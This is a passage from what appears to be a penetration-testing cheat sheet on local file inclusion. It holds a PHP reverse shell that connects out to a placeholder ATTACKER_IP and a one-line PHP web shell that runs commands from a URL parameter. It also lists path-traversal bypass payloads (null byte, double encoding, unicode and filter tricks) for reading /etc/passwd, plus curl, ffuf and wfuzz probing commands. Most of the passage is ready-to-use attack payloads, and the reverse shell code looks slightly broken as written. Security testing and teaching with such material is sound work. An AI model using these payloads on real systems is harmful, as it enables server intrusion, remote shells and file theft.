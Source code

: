 **PHP Reverse Shell:**

```php
<?php
$ip = 'ATTACKER_IP';
$port = 4444;
$sock = fsockopen($ip, $port);
exec("/bin/bash -i <&3 >&3 2>&3", $sock);
?>
```

**One-liner PHP Shell:**

```php
<?php system($_GET['cmd']); ?>
```

## Bypass Techniques

### Null Byte Injection (PHP < 5.3.4)

```
?file=../../../etc/passwd%00
?file=../../../etc/passwd%00.jpg
```

### Double Encoding

```
%252e%252e%252f  # ../
%252e%252e%255c  # ..\
```

### Unicode Bypass

```
..%c0%af
..%c1%9c
```

### Filter Bypass

```
....//
...\\/
....\\
```

## Detection and Enumeration

### Check for LFI Vulnerability

```bash
# Basic test
curl "http://target/?file=../../../etc/passwd"

# Automated scanning
ffuf -u "http://target/FUZZ" -w /path/to/lfi-wordlist.txt

# Burp Suite Intruder payloads
wfuzz -u "http://target/?file=FUZZ" -w lfi-payloads.txt
```
